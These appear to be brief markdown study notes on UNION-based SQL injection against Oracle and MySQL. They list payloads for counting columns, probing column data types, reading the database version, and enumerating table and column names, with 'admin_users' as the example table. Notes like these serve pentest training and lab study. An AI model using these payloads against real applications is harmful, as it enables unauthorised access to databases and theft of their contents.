 ### manipulate query to find the database

#### manipulate oracle query

In a oracle db, if we are using a union query injection we need to use a valid table name.


ex: 
SELECT null,null,... FROM v$instance  // in order to enumerate the number of column 

SELECT banner,null.. FROM v$instance // to enumerate the version of the db

### manipulate MySQL query

comment :  "-- " don't forget the space after the '--'

 

In order to enumerate the number of column: 

'union select null,null, ....   -- (avec un espace à la toute fin)   


datatype of the columns : 

```sql
' union select 'a', null , ... -- 
' union select null, 'a', ...  --
```

version : 

```sql
' union select null, version,  ...   --    
```
(if the data type of the second column is string)


### retrieve content of database (execept Oracle db): 


Table name : 
```sql
SELECT table_name FROM information_schema.tables
```
Once we found an interesting table name we can enumerate the associated columns : 

(for the sake of the example our interesting table is called 'admin_users')
```sql
SELECT column_name FROM information_schema.columns WHERE table_name = 'admin_users'
```




### retrieve content from oracle db : 

enumerate the version: 
```sql
' union select null,null,... from v$version --
```

